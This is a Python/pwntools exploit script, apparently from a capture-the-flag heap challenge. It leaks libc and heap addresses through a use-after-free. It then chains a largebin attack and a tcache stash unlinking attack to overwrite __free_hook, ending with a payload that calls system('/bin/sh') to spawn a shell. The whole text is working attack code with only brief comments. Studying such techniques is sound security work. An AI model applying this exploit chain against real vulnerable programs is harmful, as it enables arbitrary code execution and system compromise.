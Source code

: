 ```c
add(index=1, size=0x10, content=b'zzz')
delete(index=0)
edit(index=0, size=0x10, content=b'\x10')
show(index=0)
libc_leak = u64(sh.recv(6).ljust(8, b'\x00'))
leak_info('libc_leak', libc_leak)
libc.address = libc_leak - 0x1e3c10
leak_info('libc.address', libc.address)
edit(index=0, size=0x10, content=b'\x00')
add(index=0, size=0x500, content=b'aaa')


# 泄露heap地址并还原
add(index=0, size=0x20, content=b'aa')
delete(index=0)
show(index=0)
key = u64(sh.recv(5).ljust(8, b'\x00'))
leak_info('key', key)
heap_base = key << 12
leak_info('heap_base', heap_base)
add(index=0, size=0x20, content=b'aa')

# prepare chunks for largebin attack
add(index=1, size=0x450, content=b'aa')
add(index=2, size=0x20, content=b'aa') # gap
add(index=3, size=0x460, content=b'aa')
add(index=2, size=0x20, content=b'aa') # gap
add(index=20, size=0x440, content=b'aa')
add(index=2, size=0x20, content=b'aa') # gap

# prepare chunks for tcache stash unlinking attack
for i in range(7):
    add(index=5+i, size=0x200, content=b'aa')

for i in range(2):
    add(index=12+i, size=0x200, content=b'aa')
    add(index=2, size=0x20, content='gap')

for i in range(9):
    delete(index=5+i)

# puts 3 into largebin
delete(index=3)
add(index=4, size=0x500, content=b'aa')

# puts 1 into unsortedbin
delete(index=1)

# largebin attack
edit(index=3, size=0x430, content=p64(0)*3 + p64(libc.sym['__free_hook'] - 0x8 - 0x20))
add(index=4, size=0x500, content=b'aa')

# make sure only 5 chunks in tcache
for i in range(2):
    add(index=2, size=0x200, content=b'aa')

# debug()
# tcache stash unlinking attack
edit(index=13, size=0x200, content=p64(heap_base + 0x2410) + p64(libc.sym['__free_hook'] - 0x10 - 0x10))

payload = b'/bin/sh\x00' + p64(0) + p64(libc.sym['system'])
calloc(index=14, size=0x200, content=payload)
```
